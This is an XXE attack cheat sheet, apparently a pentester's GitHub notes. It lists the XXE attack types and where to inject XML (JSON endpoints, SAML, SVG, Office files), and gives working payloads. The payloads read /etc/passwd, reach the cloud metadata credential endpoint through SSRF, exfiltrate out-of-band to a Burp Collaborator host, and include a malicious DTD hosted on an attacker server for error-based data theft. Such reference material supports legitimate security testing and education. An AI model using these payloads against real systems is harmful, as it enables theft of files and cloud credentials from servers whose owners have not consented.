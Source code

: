 # XML External Enteties (XXE)

There are various types of XXE attacks: 
- Exploiting XXE to retrieve files, where an external entity is defined containing the contents of a file, and returned in the application's response.
- Exploiting XXE to perform SSRF attacks, where an external entity is defined based on a URL to a back-end system.
- Exploiting blind XXE exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the attacker controls.
- Exploiting blind XXE to retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive data.


### Places to try to submit XML

- [ ] Submit XML requests where json is.
 - https://blog.netspi.com/playing-content-type-xxe-json-endpoints/
- [ ] Change GET to POST and submit xml.
- https://hackerone.com/reports/154096
- [ ] Via SAML assertions.
- https://seanmelia.files.wordpress.com/2016/01/out-of-band-xml-external-entity-injection-via-saml-redacted.pdf & https://httpsonly.blogspot.se/2017/01/0day-writeup-xxe-in-ubercom.html
- [ ] In SVG files.
 - http://esoln.net/Research/2017/03/30/xxe-in-lithium-community-platform/
- [ ] In PDF files
- [ ] In MS Office files, word, excel, ppt files. 
- https://hackerone.com/reports/105434


## Payloads

**Exploiting XXE to retrieve files, where an external entity is defined containing the contents of a file, and returned in the application's response.**
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><stockCheck><productId>1&xxe;</productId><storeId>1</storeId></stockCheck>
```

**Exploiting XXE to perform SSRF attacks, where an external entity is defined based on a URL to a back-end system.**
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/">
]><stockCheck><productId>2&xxe;</productId><storeId>1</storeId></stockCheck>
```

**Exploiting blind XXE exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the attacker controls.**
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://devpey9157asm7owheb6tcwh58byzn.burpcollaborator.net">
]><stockCheck><productId>2&xxe;</productId><storeId>1</storeId></stockCheck>
```

**Exploiting blind XXE to retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive data.**

Host the following malicious dtd on the attack server:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error; 
```

Invoke the malicious dtd:

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"https://attacker-server"> %xxe;]><stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```

